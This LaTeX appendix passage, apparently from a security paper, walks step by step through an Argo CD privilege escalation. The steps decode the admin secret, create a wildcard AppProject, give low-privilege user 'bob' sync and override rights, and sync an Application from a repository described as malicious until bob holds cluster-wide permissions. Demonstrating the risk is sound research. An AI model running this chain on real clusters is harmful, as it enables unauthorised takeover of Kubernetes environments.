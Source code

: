   \textbf{步骤 2：获取初始管理员密码并登录 UI/CLI}
\begin{AppendixCode}
kubectl -n argocd get secret argocd-initial-admin-secret -o jsonpath="{.data.password}" | base64 -d && echo
kubectl port-forward svc/argocd-server -n argocd 8080:443
\end{AppendixCode}

  \textbf{步骤 3：创建宽松的 AppProject(用于演示风险)}
\begin{AppendixCode}
cat <<EOF | kubectl apply -f -
apiVersion: argoproj.io/v1alpha1
kind: AppProject
metadata:
  name: demo-project
  namespace: argocd
spec:
  destinations:
  - namespace: '*'
    server: '*'
  sourceRepos:
  - '*'
  clusterResourceWhitelist:
  - group: '*'
    kind: '*'
EOF
\end{AppendixCode}

  \textbf{步骤 4：创建低权用户 bob，并授予其对目标 Application 的 sync 与 override 权限}
\begin{AppendixCode}
policy.default: role:readonly
policy.csv: |
  p, role:syncer, applications, sync, demo-project/*, allow
  p, role:syncer, applications, override, demo-project/*, allow
  g, bob, role:syncer
\end{AppendixCode}
\begin{AppendixCode}
accounts.bob: apiKey, login
\end{AppendixCode}
\begin{AppendixCode}
kubectl rollout restart deployment/argocd-server -n argocd
\end{AppendixCode}

  \textbf{步骤 5：创建 Application 指向恶意仓库}
\begin{AppendixCode}
cat <<EOF | kubectl apply -f -
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: bob-app
  namespace: argocd
spec:
  project: demo-project
  source:
    repoURL: https://github.com/Ivanbeethoven/bad_repo
    path: .
    targetRevision: HEAD
  destination:
    server: https://kubernetes.default.svc
    namespace: default
  syncPolicy:
    automated:
      prune: true
      selfHeal: true
EOF
\end{AppendixCode}

  \textbf{步骤 6：模拟 bob 触发同步}
\begin{AppendixCode}
argocd login localhost:8080 --username bob --password <token-or-password>
argocd app sync bob-app --force
\end{AppendixCode}

  \textbf{步骤 7：验证权限提升}
\begin{AppendixCode}
kubectl auth can-i '*' '*' --as bob
\end{AppendixCode}


